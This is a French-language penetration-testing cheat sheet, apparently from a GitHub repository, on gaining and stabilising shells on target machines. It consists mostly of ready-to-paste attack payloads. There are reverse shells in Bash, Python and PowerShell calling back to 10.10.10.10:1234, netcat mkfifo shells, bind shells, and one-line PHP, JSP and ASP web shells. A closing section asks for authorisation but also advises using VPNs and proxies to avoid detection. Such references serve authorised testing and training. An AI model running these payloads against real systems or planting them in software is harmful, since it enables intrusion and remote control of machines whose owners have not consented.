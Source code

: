 # Shell Stable et Reverse Shell

#### **Shell Stable**

**1. Utilisation de `rlwrap`**

Si l'outil `rlwrap` est disponible sur la machine attaquante, tu peux améliorer l’interactivité du shell avec l'historique et les touches directionnelles :

```bash
rlwrap /bin/bash
```

**2. Méthode Bash (sans Python)**

Si Python n'est pas disponible, mais que Bash est présent, utilise cette commande pour obtenir un shell interactif :

```bash
/bin/bash -i
```

**3. Méthode Python**

Si Python est disponible sur la machine cible, utilise cette commande pour obtenir un shell interactif :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

**4. Méthode Python3**

Si Python3 est disponible, utilise cette commande :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**5. Méthode avec `socat` (si disponible)**

Si `socat` est disponible sur la machine cible ou si tu peux l’installer, tu peux établir un shell stable :

```bash
socat file:`tty`,raw,echo=0 tcp-connect:<IP>:<PORT>
```

**6. Méthode Netcat et `/dev/tcp`**

Si l’accès réseau est possible depuis le shell et que la machine cible permet la lecture via `/dev/tcp`, tu peux établir une connexion stable avec Netcat :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

**7. Utilisation de SSH**

Si tu as accès à une session avec un shell limité, tu peux essayer d’utiliser SSH pour obtenir un shell stable :

```bash
ssh user@localhost /bin/bash
```

***

#### **Reverse Shell**

Un reverse shell est utilisé pour établir une connexion de la machine cible vers ton PC (machine attaquante). Voici des exemples pour différents langages.

**1. Bash**

Commande 1 :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Commande 2 :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 > /tmp/f
```

**2. Python**

Si Python est disponible sur la cible :

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

**3. Python3**

Si Python3 est disponible :

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

**4. PowerShell**

Utilise cette commande si PowerShell est présent :

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

***

#### **Bind Shell**

Un bind shell permet à ton PC de se connecter à un port ouvert sur la machine cible.

**1. Bash**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 > /tmp/f
```

**2. Python**

```python
python3 -c 'import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())'
```

**3. PowerShell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

#### **Web Shell**

Un web shell est une interface web permettant d’exécuter des commandes sur un serveur via un navigateur.

**1. PHP**

```php
<?php system($_REQUEST["cmd"]); ?>
```

**2. JSP**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

**3. ASP**

```asp
<% eval request("cmd") %>
```

***

#### **Bonnes Pratiques**

1. **Obtenir des autorisations** :
   * Toujours travailler dans un cadre légal et éthique. Obtenez des autorisations explicites avant de tester des systèmes.
2. **Minimiser les traces** :
   * Configurez des délais entre les connexions et utilisez des outils comme des VPN ou des proxys pour éviter d’attirer l’attention.
3. **Analyser les environnements** :
   * Avant d’exécuter un shell interactif, vérifiez les configurations locales pour éviter de briser les sessions existantes.
